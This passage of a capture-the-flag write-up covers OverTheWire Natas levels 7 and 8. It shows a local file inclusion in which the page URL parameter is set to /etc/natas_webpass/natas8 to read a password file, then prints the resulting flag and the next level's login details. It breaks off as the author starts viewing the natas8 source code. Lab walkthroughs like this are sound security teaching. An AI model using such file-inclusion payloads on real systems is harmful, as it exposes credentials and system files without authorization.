 So, we just simply change the URL a little bit from:

```
http://natas7.natas.labs.overthewire.org/index.php?page=home
```

to

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

So, the flag appears as the content of the web page:

![Flag for Natas 7](images/Answer-7.png)

So, the flag from the above screenshot is:

```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```

## Natas 8

The details to login the natas 8 are:

```
Username: natas8
Password: a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
URL:      http://natas8.natas.labs.overthewire.org
```

First, when I vit the page, I saw the input field and also the view source code link. Let's view the source code of this challenge:
